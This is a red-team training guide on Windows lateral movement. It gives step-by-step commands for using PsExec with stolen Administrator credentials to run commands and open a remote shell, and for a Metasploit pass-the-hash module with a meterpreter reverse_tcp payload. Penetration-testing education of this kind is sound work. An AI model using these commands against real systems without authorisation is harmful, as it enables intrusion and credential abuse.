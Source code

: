 ```yaml
---
slug: windows-red-team-lateral-movement-techniques
description: 'This guide covers the process of performing lateral movement on Windows systems.'
keywords: ['security']
tags: ['security']
license: '[CC BY-ND 4.0](https://creativecommons.org/licenses/by-nd/4.0)'
published: 2021-11-03
title: "Windows Red Team Lateral Movement Techniques"
authors: ["HackerSploit"]
contributors: ["HackerSploit"]
---
```


{{< content "hackersploit-red-team-series-note-shortguide" >}}

{{< content "hackersploit-caution-shortguide" >}}

## Before You Begin

In order to follow along with the tools and techniques utilized in this document, you will need to use one of the following offensive Linux distributions:

- Kali Linux
- Parrot OS

The following is a list of recommended technical prerequisites that you will need in order to get the most out of this course:

- Familiarity with Linux system administration.

- Familiarity with Windows.

- Functional knowledge of TCP/IP.

- Familiarity with penetration testing concepts and life-cycle.

Note: The techniques and tools utilized in this document were performed on Kali Linux 2021.2 Virtual Machine

## MITRE ATT&CK Lateral Movement Techniques

Lateral Movement consists of techniques that adversaries use to enter and control remote systems on a network. Following through on their primary objective often requires exploring the network to find their target and subsequently gaining access to it. Reaching their objective often involves pivoting through multiple systems and accounts to gain. Adversaries might install their own remote access tools to accomplish Lateral Movement or use legitimate credentials with native network and operating system tools, which may be stealthier.

![MITRE ATT&CK lateral movement techniques](mitre-attack-lateral-movement-techniques.png "MITRE ATT&CK lateral movement techniques")

The following is a list of key techniques and sub techniques that we will be exploring:

- Remote Services

- Alternate Authentication

Our objective is to utilize clear-text passwords and hashes that we extracted to facilitate lateral movement through legitimate authentication protocols/methods.

## Lateral Movement With PsExec

PsExec is a lightweight telnet-replacement that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software. PsExec's most powerful uses include launching interactive command-prompts on remote systems and remote-enabling tools like IpConfig that otherwise do not have the ability to show information about remote systems.

We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt.

We will be running PsExec from our Windows VM as you may encounter a few issues when running PsExec on Linux with Wine.

Note: We will be utilizing the credentials we extracted from the Windows 10 target system in the Credential Access Video.

1. You can download PsExec from the following link: https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

1. After downloading PsTools archive, you will need to extract it and open a Windows command prompt in the extracted folder.

1. We can execute a command on the target system with PsExec by specifying the computer name/IP address, username, and password. This can be done by running the following command:

        ./PsExec64.exe \\<TARGET-IP> -u Administrator -p <PASSWORD> ipconfig

    In this case, we will execute the ipconfig command on the target system in order to verify that we can authenticate successfully with PsExec.

    ![PsExec - execute ipconfig command on target](psexec-execute-ipconfig-command-on-target.png "PsExec - execute ipconfig command on target")

    As highlighted in the preceding screenshot, PsExec authenticates with the target system, executes the ipconfig, and provides us with the output of the command.

1. Alternatively, we can also initiate a remote command prompt session with the target system by running the following command:

        ./PsExec64.exe \\<TARGET-IP> -u Administrator -p <PASSWORD> cmd.exe

    As highlighted in the following screenshot, we are able to authenticate successfully and obtain a remote command shell session on the target system.

    ![PsExec - remote shell](psexec-remote-shell.png "PsExec - remote shell")

    We can now utilize the remote command session to scan and ping for other hosts on the network that we can pivot to.

## Pass-the-Hash

If you weren’t able to extract any cleartext passwords from the target system, you can utilize the pass-the-hash Metasploit module that leverages PsExec in order to authenticate with SMB (Server Message Block) using a user account’s NTLM hash.

Pass-the-hash is a technique that is used by attackers to authenticate to a remote host by using the underlying NTLM or LanMan hash of a user's password, instead of requiring the associated plaintext password.

For this section, our target system will be running Windows 10. As a prerequisite, ensure that you have gained your initial foothold on the system and have a meterpreter session

1. The first step will involve loading the SMB PsExec Metasploit module, this can be done by running the following command on the Kali terminal:

        use exploit/windows/smb/psexec

1. After loading the module, you will need to configure the module payload, this can be done by running the following command:

        set payload windows/x64/meterpreter/reverse_tcp

1. You will also need to set the SMBPass and SMBUser options with the NTLM hash and name of the user account. This can be done by running the following commands:

        set SMBUser <USERNAME>

    Note: In this case, we will be setting the “SMBUser” option to “Administrator”.

        set SMBPass <NTLM Hash>

1. Finally, you will need to set the target system IP address, this can be done by running the following command:

        set RHOSTS <TARGET-IP>

1. After configuring the options, we can execute the module by running the following command:

        run

1. If authentication is successful, you should receive a new meterpreter session with the privileges of the user you authenticated with as shown in the screenshot below.

    ![Meterpreter session from PsExec with Pass-the-Hash](meterpreter-session-from-psexec-with-pass-the-hash.png "Meterpreter session from PsExec with Pass-the-Hash")